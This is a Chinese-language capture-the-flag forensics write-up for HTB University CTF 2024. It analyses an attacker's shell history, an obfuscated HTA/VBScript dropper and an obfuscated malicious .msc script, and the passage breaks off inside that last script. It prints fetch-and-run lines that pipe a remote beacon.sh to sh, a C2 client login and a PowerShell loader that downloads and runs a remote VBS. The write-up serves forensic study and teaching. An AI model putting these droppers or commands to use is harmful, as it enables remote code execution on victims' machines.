# HTB-University CTF 2024 Binary Badlands 的 Forensics 部分WP-先知社区

> **来源**: https://xz.aliyun.com/news/16231  
> **文章ID**: 16231

---

## Frontier Exposed

题目描述

```
The chaos within the Frontier Cluster is relentless, with malicious actors exploiting vulnerabilities to establish footholds across the expanse. During routine surveillance, an open directory vulnerability was identified on a web server, suggesting suspicious activities tied to the Frontier Board. Your mission is to thoroughly investigate the server and determine a strategy to dismantle their infrastructure. Any credentials uncovered during the investigation would prove invaluable in achieving this objective.

```

访问靶机存在目录遍历



下载`.bash_history`

```
nmap -sC -sV nmap_scan_results.txt jackcolt.dev
cat nmap_scan_results.txt
gobuster dir -u http://jackcolt.dev -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -o dirs.txt
nc -zv jackcolt.dev 1-65535
curl -v http://jackcolt.dev
nikto -h http://jackcolt.dev
sqlmap -u "http://jackcolt.dev/login.php" --batch --dump-all
searchsploit apache 2.4.49
wget https://www.exploit-db.com/download/50383 -O exploit.sh
chmod u+x exploit.sh
echo "http://jackcolt.dev" > target.txt
./exploit target.txt /bin/sh whoami
wget https://notthefrontierboard/c2client -O c2client
chmod +x c2client
/c2client --server 'https://notthefrontierboard' --port 4444 --user admin --password SFRCe0MyX2NyM2QzbnQxNGxzXzN4cDBzM2R9
./exploit target.txt /bin/sh 'curl http://notthefrontierboard/files/beacon.sh|sh'
wget https://raw.githubusercontent.com/vulmon/Vulmap/refs/heads/master/Vulmap-Linux/vulmap-linux.py -O vulnmap-linux.py
cp vulnmap-linux.py /var/www/html

```

发现执行了一系列渗透操作——nmap扫端口，gobuster扫目录，还用了nikto、sqlmap工具，接着用searchsploit扫到了网站存在CVE-2021-41773 Apache路径穿越漏洞，并下了exp进行命令执行，之后下c2客户端与服务端进行通信，还有上马等操作

以为要根据渗透结果进行分析利用，然后发现对C2的password进行base64解密就能得到flag



## Wanter Alive

题目描述

```
A routine patrol through the Frontier Cluster's shadowy corners uncovered a sinister file embedded in a bounty report—one targeting Jack Colt himself. The file’s obfuscated layers suggest it's more than a simple message; it’s a weaponized codNote: Ensure all domains discovered in the challenge resolve to your Docker instance, including the appropriate port when accessing URLs.e from the Frontier Board, aiming to tighten their grip on the stars. As a trusted ally, it's your task to peel back the layers of deception trace its origin, and turn their tools against them.

```

源码给了一个`wanted.hta`，打开有一段JS代码，是执行字符串写入操作

将字符串执行五层url decode之后得到html代码，将`<sCrIPT lANgUAge="VbScRipT">`中的空格全部替换为空，得到

```
<script language=JavaScript>m='<script>
<!--
document.write(unescape("<script language=JavaScript>m='<script>
<!--
document.write(unescape("<!DOCTYPE html>
<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE8" >
<html>
<body>
<sCrIPT lANgUAge="VbScRipT">
DiMOCpyLSiQittipCvMVdYVbYNgMXDJyXvZlVidpZmjkOIRLVpYuWvvdptBSONolYytwkxIhCnXqimStUHeBdpRBGlAwuMJRJNqkfjiBKOAqjigAGZyghHgJhPzozEPElPmonvxOEqnXAwCwnTBVPziQXITiKqAMMhBzrhygtuGbOfcwXPJLJSTlnsdTKXMGvpGFYvfTmDaqIlzNTqpqzPhhktykgBvytPUtQnnpprPF,PoRkkqjVbkMUvpXeCSCGmsOdJUQlGcAUJUngSiqyuVjPViqbHZeseLYFNCcVukIEhbtljkiiGoWeAZgVghNVJcDhcTBgSDyFQLePsWgOtrScsnNAJtyDlRZAjVhhhHpMuZogCVFdqfUXGCHHWJhGRHGwRIRmwaFPATUzTJaRdFWdyskcEhJsKYUMGjyLSiMARuQhBMMSrUUKbmPBmNYbWukinAYRFHhKaFYvIHlVM:setOCpyLSiQittipCvMVdYVbYNgMXDJyXvZlVidpZmjkOIRLVpYuWvvdptBSONolYytwkxIhCnXqimStUHeBdpRBGlAwuMJRJNqkfjiBKOAqjigAGZyghHgJhPzozEPElPmonvxOEqnXAwCwnTBVPziQXITiKqAMMhBzrhygtuGbOfcwXPJLJSTlnsdTKXMGvpGFYvfTmDaqIlzNTqpqzPhhktykgBvytPUtQnnpprPF=createoBjEct(Chr(&H57)&"SCRIPT.shELL"):PoRkkqjVbkMUvpXeCSCGmsOdJUQlGcAUJUngSiqyuVjPViqbHZeseLYFNCcVukIEhbtljkiiGoWeAZgVghNVJcDhcTBgSDyFQLePsWgOtrScsnNAJtyDlRZAjVhhhHpMuZogCVFdqfUXGCHHWJhGRHGwRIRmwaFPATUzTJaRdFWdyskcEhJsKYUMGjyLSiMARuQhBMMSrUUKbmPBmNYbWukinAYRFHhKaFYvIHlVM="PowErShEll-ExBYPaSS-NOP-W1-CdEVIcEcrEDEnTIAlDePlOYmENt.EXe;iex($(iEX('[SYsTeM.TeXt.EnCoding]'[chAr]0X3A[CHAr]0X3A'uTf8.geTSTring([SYstem.ConVERT]'[chAR]58[CHAR]58'fRoMBASE64string('[CHar]0X22'JGVhNmM4bXJUICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgPSAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIEFkZC1UeXBlICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgLW1lTUJlckRlZmluSVRJb24gICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAnW0RsbEltcG9ydCgidVJMbU9OLmRsTCIsICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgQ2hhclNldCA9IENoYXJTZXQuVW5pY29kZSldcHVibGljIHN0YXRpYyBleHRlcm4gSW50UHRyIFVSTERvd25sb2FkVG9GaWxlKEludFB0ciAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIFBHLHN0cmluZyAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIENmbXIsc3RyaW5nICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgYVV2eVZCUkQsdWludCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIGZmWWxEb2wsSW50UHRyICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgb0ZYckloKTsnICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgLW5BTUUgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAiU3V4dFBJQkp4bCIgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAtTmFtRXNQQWNFICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgbklZcCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgIC1QYXNzVGhydTsgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAkZWE2YzhtclQ6OlVSTERvd25sb2FkVG9GaWxlKDAsImh0dHA6Ly93YW50ZWQuYWxpdmUuaHRiLzM1L3dhbnRlZC50SUYiLCIkZU52OkFQUERBVEFcd2FudGVkLnZicyIsMCwwKTtTVEFSdC1zbGVlUCgzKTtzdEFSdCAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICIkZW5WOkFQUERBVEFcd2FudGVkLnZicyI='[cHar]0X22'))')))":OCpyLSiQittipCvMVdYVbYNgMXDJyXvZlVidpZmjkOIRLVpYuWvvdptBSONolYytwkxIhCnXqimStUHeBdpRBGlAwuMJRJNqkfjiBKOAqjigAGZyghHgJhPzozEPElPmonvxOEqnXAwCwnTBVPziQXITiKqAMMhBzrhygtuGbOfcwXPJLJSTlnsdTKXMGvpGFYvfTmDaqIlzNTqpqzPhhktykgBvytPUtQnnpprPF.rUNchR(34)&OCpyLSiQittipCvMVdYVbYNgMXDJyXvZlVidpZmjkOIRLVpYuWvvdptBSONolYytwkxIhCnXqimStUHeBdpRBGlAwuMJRJNqkfjiBKOAqjigAGZyghHgJhPzozEPElPmonvxOEqnXAwCwnTBVPziQXITiKqAMMhBzrhygtuGbOfcwXPJLJSTlnsdTKXMGvpGFYvfTmDaqIlzNTqpqzPhhktykgBvytPUtQnnpprPF.eXpanDEnVIroNMENtSTRinGs(Chr(&H25)&ChrW(&H53)&Chr(&H79)&ChrW(&H73)&ChrW(&H54)&ChrW(&H65)&ChrW(&H6D)&Chr(&H52)&ChrW(&H4F)&Chr(&H6F)&ChrW(&H74)&ChrW(&H25))&"\SYStEM32\WINdOwSpoweRSheLL\V1.0\PoWERshElL.ExE"&chr(34)&cHR(32)&Chr(34)&PoRkkqjVbkMUvpXeCSCGmsOdJUQlGcAUJUngSiqyuVjPViqbHZeseLYFNCcVukIEhbtljkiiGoWeAZgVghNVJcDhcTBgSDyFQLePsWgOtrScsnNAJtyDlRZAjVhhhHpMuZogCVFdqfUXGCHHWJhGRHGwRIRmwaFPATUzTJaRdFWdyskcEhJsKYUMGjyLSiMARuQhBMMSrUUKbmPBmNYbWukinAYRFHhKaFYvIHlVM&CHr(34),0:SETOCpyLSiQittipCvMVdYVbYNgMXDJyXvZlVidpZmjkOIRLVpYuWvvdptBSONolYytwkxIhCnXqimStUHeBdpRBGlAwuMJRJNqkfjiBKOAqjigAGZyghHgJhPzozEPElPmonvxOEqnXAwCwnTBVPziQXITiKqAMMhBzrhygtuGbOfcwXPJLJSTlnsdTKXMGvpGFYvfTmDaqIlzNTqpqzPhhktykgBvytPUtQnnpprPF=NOThING
SeLF.CloSE
</script>

</body>
</html>"));
//-->
</script>';d=unescape(m);document.write(d);</script>"));
//-->
</script>';d=unescape(m);document.write(d);</script>

```

对vbs代码做了一些混淆，其中有段base64解码操作，将字符串提取进行base64解密，看到代码是下载`wanted.tIF`文件，并将其保存到本地`wanted.vbs`文件然后执行



得到路径后访问`靶机ip/35/wanted.tIF`将vbs文件下载到本地，发现也做了一些混淆，分析看到几串类似base64加密的字符串，但是拼接后解不出来

```
latifoliado = "U2V0LUV4ZWN1dGlvblBvbGljeSBCeXBhc3MgLVNjb3BlIFByb2Nlc3MgLUZvcmNlOyBbU3lzdGVtLk5ldC5TZd2FudGVkCgXJ2aWNlUG9pbnRNYW5hZ2VyXTo6U2VydmVyQ2VydGlmaWNhdGVWYWxpZGF0aW9uQ2FsbGJhY2sgPSB7JHRydWV9O1td2FudGVkCgTe"
latifoliado = latifoliado & "XN0ZW0uTmV0LlNlcnZpY2VQb2ludE1hbmFnZXJdOjpTZWN1cml0eVByb3RvY29sID0gW1N5c3RlbS5OZXQuU2Vydmld2FudGVkCgjZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2wgLWJvciAzMDcyOyBpZXggKFtTeXN0ZW0uVGV4dC5FbmNvZd2FudGVkCgGl"
latifoliado = latifoliado & "uZ106OlVURjguR2V0U3RyaW5nKFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoKG5ldy1vYmplY3Qgcd2FudGVkCg3lzdGVtLm5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vd2FudGVkLmFsaXZlLmh0Yi9jZGJhL19d2FudGVkCgyc"
latifoliado = latifoliado & "CcpKSkpd2FudGVkCgd2FudGVkCg"
```

继续看代码

```
Dim parrana
parrana = "d2FudGVkCg"

Dim arran
arran =" d2FudGVkCg  d2FudGVkCg "
arran = arran & "$d2FudGVkCgCod2FudGVkCgd"
arran = arran & "id2FudGVkCggod2FudGVkCg "
arran = arran & "d2FudGVkCg" & latifoliado & "d2FudGVkCg"
arran = arran & "$d2FudGVkCgOWd2FudGVkCgj"
arran = arran & "ud2FudGVkCgxdd2FudGVkCg "
......
arran = descortinar(arran, parrana, "")
```

接着看代码中descortinar函数的定义，虽然没学过vbs语法，但是看格式也能猜到功能是做字符串替换

```
Function descortinar(ByVal descair, ByVal brita, ByVal chincharel)
    Dim sulfossal
    sulfossal = InStr(descair, brita)

    Do While sulfossal > 0
        descair = Left(descair, sulfossal - 1) & chincharel & Mid(descair, sulfossal + Len(brita))
        sulfossal = InStr(sulfossal + Len(chincharel), descair, brita)
    Loop

    descortinar = descair
End Function
```

丢给gpt分析，验证想法



将`latifoliado`拼接后的字符串里的`d2FudGVkCg`替换为空，解码得到



访问`靶机ip/cdba/_rp`得到flag



## Binary Badresources

题目描述

```
Recently, a mysterious syndicate from the far reaches of the Frontier has sent shockwaves through the system by deploying a new, deceptive weapon. Disguised as a harmless gift, it lies dormant until a defender unwittingly activates it, instantly compromising the defensive line and paving the way for invaders to seize the stronghold. To reclaim control over the Frontier Cluster and protect their home from further incursions, brave outlaws and daring defenders are scrambling to decode the mechanics of this weapon and devise a way to disable it—before it’s too late.

```

首先题目源码给了个`wanted.msc`

主要看中间的一段js代码

```
// Console Root
var _0x4ad86c=_0x53e0;(function(_0x4f7c4e,_0xd4182a){var _0x5504c4=_0x53e0,_0x1e159e=_0x4f7c4e();while(!![]){try{var _0x4427d6=parseInt(_0x5504c4(0x1ad))/(0x1*0x577+0x7ca*-0x1+0x254*0x1)+parseInt(_0x5504c4(0x1a7))/(0x4d6*-0x6+0x3*-0x790+0x19db*0x2)+parseInt(_0x5504c4(0x1ba))/(-0x1ad7+0x1e6b+-0x391)+parseInt(_0x5504c4(0x164))/(-0x12d3+-0xae1+0x9e8*0x3)*(parseInt(_0x5504c4(0x20e))/(0x15e*-0xb+-0x2123+0x3032))+parseInt(_0x5504c4(0x21f))/(-0x152*-0x9+-0x12ff+-0x3f*-0x1d)+-parseInt(_0x5504c4(0x2b5))/(-0xbd5*-0x1+0x2*0x713+0x16*-0x12e)*(-parseInt(_0x5504c4(0xd8))/(0xf51+0x3*-0xaf3+0x1190))+-parseInt(_0x5504c4(0x18a))/(-0x2179+-0x1*0xe2d+0x2faf)*(parseInt(_0x5504c4(0x295))/(-0x91c+0x18c0+-0xf9a));if(_0x4427d6===_0xd4182a)break;else _0x1e159e['push'](_0x1e159e['shift']());}catch(_0xb868ad){_0x1e159e['push'](_0x1e159e['shift']());}}}(_0x1215,0x43431+0x39629+-0x4e1b8));var scopeNamespace=external[_0x4ad86c(0x1ec)][_0x4ad86c(0x140)+_0x4ad86c(0xf0)],rootNode=scopeNamespace[_0x4ad86c(0xf7)](),mainNode=scopeNamespace[_0x4ad86c(0x290)](rootNode),docNode=scopeNamespace[_0x4ad86c(0xf8)](mainNode);external[_0x4ad86c(0x1ec)][_0x4ad86c(0x1f1)][_0x4ad86c(0x243)+_0x4ad86c(0x13a)]=docNode,docObject=external[_0x4ad86c(0x1ec)][_0x4ad86c(0x1f1)][_0x4ad86c(0x262)+_0x4ad86c(0x182)],external[_0x4ad86c(0x1ec)][_0x4ad86c(0x1f1)][_0x4ad86c(0x243)+_0x4ad86c(0x13a)]=mainNode;var XML=docObject;function _0x53e0(_0x10dadc,_0x2187c3){var _0x3f489e=_0x1215();return _0x53e0=function(_0x99c9a2,_0x49dd0f){_0x99c9a2=_0x99c9a2-(0xcd3+-0x2*0xc8e+0x1*0xd09);var _0x46f109=_0x3f489e[_0x99c9a2];return _0x46f109;},_0x53e0(_0x10dadc,_0x2187c3);}XML[_0x4ad86c(0x18c)]=![];var xsl=XML;function _0x1215(){var _0x2ca70b=['6%24%2A%24','70%24wxvWl','60Ywivw%60','26%24%2A%2','aceholder%','%27%3F%3E%','Jsv%24m%24','s%7BrpsehT','%20%20%20%','sfnLXXT%24','pace','pWgvmtx%24','%2A%24zfGv','EsfnJmpi2G','26QW%5CQP6','4wxvWls%7B','I%7Cigyxms','GetRoot','GetNext','3E%24%26%2','XsJmpi%24t','TpHCM%20%2','rTspmg%7D%','%2D%24Xlir','6%0EwxvI%7','exl%24A%24','www%2Ew3%2','%26%2D%0E%','loadXML','20%22%22%3','CwxvHs%7Br','Dwxiq2MS2J','i%7CxJmpi%','mpi%24%26G','rpsehTexl7','rx%2D%26%2','EppF%7Dxiw','0%24Xvyi%2','i%24%40B%2','E%24%24%24','0%20%20%20','ixyvrGshi%','2C%26G%3E%','%3EViehEpp','S2JmpiI%7C','EevvJmpiTe','4G%3E%60Yw','E33%7Bmrhs','mwxw%2Cwxv','x%2C%26EHS','a%241f%7Cs','8oi%7DPirk','20%2D%20%2','2Hiwgvmtxm','mgmx%0EHmq','vieq2Gpswi','%7BrpsehJm','%24%24%24%','22%0D%0A%2','24c%0E%26%','r%24I%7Ctp','26%24%7Bmx','yfpmg%60xi','4wxvHs%7Br','HF2Wxvieq%','24%5BWgvmt','Wix%24sfnJ','%24YFsyrh%','i%7DTexl%2','pixiJmpi%2','%22VBScrip','eq%0E%24%2','gvmtx%0Ewx','B%20chr%28','xlw%24A%24','CigyxefpiT','4%24%24sfn','24%24Hs%7B','7BjmpiTexl','Ywivw%60Ty','%7BjmpiTex','sr%0E%24%2','ti%24A%245','4%24Hs%7Br','eNode','xvHs%7Brps','D%0A%20%20','vYVP5%24A%','%0E%0EsfnW','4%2A%24Ivv','ScopeNames','A%24%26G%3','4%24%24%5B','Mj%0EsfnJm','%24%26%24%','hJmpi%2Cyv','ww2i%7Ci2g','A%24%5FW%7','Glv%2C78%2','t%20method','A%24Gviexi','24Hmq%24mr','5%24A%24%2','%24sfnJWS2','ehTexl6%24','x%0EIrh%24','p0%24texl%','7BivWlippW','iYVP%24A%2','%24%2A%24G','2i%7Ci%26%','tw5%241Jmp','xl%0EHmq%2','2D%26%24%2','tylesheet%','X%260%24yv','%24Irh%24M','p%26%2D%0E','iW%7DwxiqS','26Ivvsv%24','9%29%3ANex','Rsxlmrk%0E','tx%24jmpi%','Pj%24%2A%2','mg%60gwvww','3gwvww2hpp','11684LFiimg','xw%2CwxvHs','9%2FXSL%2F','24%26lxxt%','24wxvYVP60','6%241Oi%7D','W%7Dwxiq2M','eq%24A%24G','4%24%24Hmq','60Tyfpmg%6','Hs%7Brpseh','44%24Xlir%','M%20%3D%20','vPj%24%2A%','24%24%24%2','%0E%26%28j','WS2HipixiJ','XT2Wirh%0E','4%24%24%24','4wxvI%7Cig','2C%26%24%2','lw%2Cm%2D%','w%24A%2464','4Mj%0E%24%','2A%24zfGvP','28jmpiGsrx','%24%2A%24c','Ivvsv%24Vi','rwiFsh%7D%','rh%24Mj%0E','ect','85%29%20%2','e%20TpHCM%','psehTexl6%','24%24%24%0','j%0EMj%24R','4Xlir%0E%2','0%24wxvWls','32436nznPAg','sfnJWS2Hip','async','0to%203222','2D%0E%24%2','4%2A%24zfG','fnigx%26%2','xirx%5F%28','v%24%28oi%','xyvrGshi%0','i2lxf3gwvw','2CevvJmpiT','l%2D%0E%0E','ViehEppF%7','p%24A%24Gv','%2CwxvWls%','vv2Ryqfiv%','p0%24Jepwi','F%7Dxiw%2C','BjmpiYVP0%','D%0EMj%24I','ppWgvmtx%0','er%3D%22pl','%3C%3Fxml%','s%7BivWlip','4sfnJWS2Jm','exl0%246%0','rx2Pirkxl%','%2A%24Glv%','371874DFsmrV','24%40B%244','0D%0A%20%2','gviexmrk%2','Ts%7BivWli','%24%24mrxV','209302uXLXCM','%26lxxt%3E','i%7Cigyxms','pi%0ESr%24','I%7Cmwxw%2','24%24sfnLX','%0E%26%24%','emas%2Dmic','%24%24sfnW','28oi%7D2Pi','2450%24Xvy','%24%24%5Fw','26%2D%26%2','807144VHKlCe','mg%60xiqt2','2lxf3%7Ber','Oi%7DTexl%','22%20xmlns','hpp%26%0Ew','mpia%3E%3E','ipp%24wgvm','24%2A%24Gl','5B%0D%0ATp','20version%','ehTexl50%2','Wgvmtx2Uym','x2Igls%24%','%0EHmq%24w','x%24sfnWxv','3A%0D%0A%2','0E%22%2Ci%','iqt2tw5%26','yxefpiTexl','%3A%20TpHC','%3Ams%3D%2','%0A%3C%2Fs','viexiSfnig','EsfnJWS2Hi','g%60gwvww2','%24Mj%0EMj','vHs%7Brpse','fix%3D%22u','Irh%24Wyf%','ylesheet%0','l%2D%26%24','vmxi%24sfn','4%26G%3E%6','20%3Coutpu','sehTexl50%','A%244%24Xs','26G%3E%60Y','S0%24sfnLX','lipp2Vyr%2','r%24jempih','XT%0EHmq%2','4wxvYVP50%','0gwvww2i%7','24wxvHs%7B','anguage%3D','Hmq%24m%0E','4wgvmtx%24','%24wxvHs%7','A%24zfGvPj','Document','srjmk%26%0','vPj%0E%0EH','%24A%24%5F','%0A%20%20%','ActiveView','v%2C78%2D%','4%24Xlir%0','rkxl%26%24','LXXT2Wxexy','i%0E%24%24','0Ywivw%60T','24zfGvPj%2','%24%24%5BW','%20%20xmln','j%24%2A%24','440%24Xvyi','lxxt%3E33%','xvmrka%28O','D%24%2A%24','%26%24%2A%','xlw%2Cm%2D','xla%26%24%','4%7F%26%24','transformN','%28JmpiTex','4%26lxxt%3','24Mj%24sfn','%7BjmpiYVP','ieq%24A%24','l%24i%7Cmx','fnJWS2Jmpi','%3E%60Ywiv','0%2450%24X','205mClWgv','x%2C%26Wgv','evvJmpiTex','%24wxvYVP7','%26G%3E%60','rpsehTexl6','Wxvieq2%5B','xl%24A%24%','2HipixiJmp','lv%2C78%2D','2C78%2D0%2','0EIrh%24Mj','vwlipp%241','c%0E%26%C2','E%26%24%24','0%20%20%3C','mpiGsrxirx','2011458BzyKHt','2A%24mrxVi','gvmtx2Wlip','2D%24Xlir%','%221%2E0%2','3F%24%28m%','24%24%24Wi','%24jsv%24%','mtxmrk2Jmp','%7Ci%26%0E','ivw%60Tyfp','YVP70%24wx','ir%24%26KI','A%24c%0E%2','i%0EsfnJWS','24%24sfnWx','mq%24sfnJm','BivWlipp%2','24%24%24%5','HCM%20%3D%','24wxvWls%7','WS%24A%24G','ript%3E%0D','sx%24sfnJW','rxih2thj%2','qt2tw5%26%','xvieq2Wezi','xmlns%3Aus','version%3D','pmg%60%7Be','wyqi%24Ri%','gvmtx2Igls','p0%24sfnJW','v%24%2C%28','Eorg%2F199','xVixyvrGsh','ActiveScop','vWls%7Bjmp','B%20%281%2','8JmpiTexl0','vieq2Stir%','%24Mj%24mr','6%0E%0EWix','om%3Axslt%','4%24%24Wix','C%26ts%7Bi','c%0E%26%5F','D%0EWix%24','S2Jmpia%3E','ythexi2lxf','%24gshi%3E','jmpiTexl0%','ser%22%20l','t%20implem','Texl7%2D%2','Mj%24Rsx%2','psehTexl60','xl5%2D%24X','4evvJmpiTe','%0EwxvYVP6','Afor%20i%2','j%0ERi%7Cx','G%3E%60Ywi','mpiTexlw%0','0D%0A%3Cst','%81%26%24%','JmpiI%7Cmw','ControlObj','24%29%24%2','Hmq%24evvJ','%241Jmpi%2','%2C%26%5BW','sfnLXXT2St','pi2%5Bvmxi','24A%24sfnJ','Ci2gsrjmk%','i%7Ci2gsrj','2C1%29%29%','24%24%24Hs','28%22Stxms','ents%2Dpre','mk%26%0Ewx','piI%7Cmwxw','BjmpiTexl%','Jmpi%24wxv','i%24%26G%3','WS2GviexiX','Texl%24%26','vyi%0EsfnW','E%60Ywivw%','7Bwythexi2','Texl0%24%2','24sfnJmpi%','irx%5F%28m','hTexl7%0EI','8jmpiGsrxi','wxvHs%7Brp','s%3D%22htt','vw%60Tyfpm','%24%2A%24w','LXXT2Viwts','%3E%5Bvmxi','24A%24sfnW','3D%271%2E0','20%20%3C%2','%2D%0E%24%','%0EIrh%24M','%24A%24%26','241px%24%2','0gwvww2hpp','4Hs%7Brpse','24%2A%24%2','7Cx%0EWix%','GetChild','33%7Bmrhs%','%0E%24%24%','26%0EwxvWl','Evve%7D%2C','3230cglRaR','Asc%28mid%','%7Bwythexi','%24Xlir%0E','2urn%3Asch','Fwxvmrka%2','iTexl%24%2','%26%0EwxvY','ode','%5D%5D%3E%','%0EwxvHs%7','26%2D%0E%2','s%7BjmpiTe','%26%0EsfnJ','2A%24c%0E%','p%3A%2F%2F','%24sfnWlip','6teveq%24%','2%5CQPLXXT','pswi%0E%0E','ixiJmpi%24','3E33%7Bmrh','%24sfnWxvi','0%24wxvTs%','Transform%','%2C%28Jmpi','ma%24A%24%','4c%0E%26js','6G%3E%60Yw','psehJmpi%2','fpmg%60gwv','m%24A%244%','1647989EWhTwj','%3D%22text','%24Rsx%24s','4Ts%7BivWl','rosoft%2Dc','0EMj%24Rsx','BrpsehTexl','xvieq2X%7D','0E%24%24%2','iexiSfnigx','4wxvYVP60%','exlw%2D%0E','4%2A%24c%0','1%5BCDATA%','ww2i%7Ci%2','%22%2F%3E%','ehTexl7%24','%0E%0EwxvT','t%3AExecut','lxf3gwvww2','7Bmrhs%7Bw','xih2thj%26','28oi%7D%24','lir%0E%24%','%24%26Ts%7','Tyfpmg%60x','zfGvPj%24%','2F%2F%2D%2','ms%3Ascrip','Dxiw%2C%28','%7BrpsehTe','%60gwvww2i','s%7Bwythex','%24%2A%24%','pi%24wxvYV','24%24Irh%2','24F%7Dteww','%28jmpiGsr','t%22%3E%0D','Sfnigx%2C%','0EwxvHs%7B','wivw%60Tyf','8WrtZke','rpsehJmpi%','w2i%7Ci%26','0E%0EWyf%2','P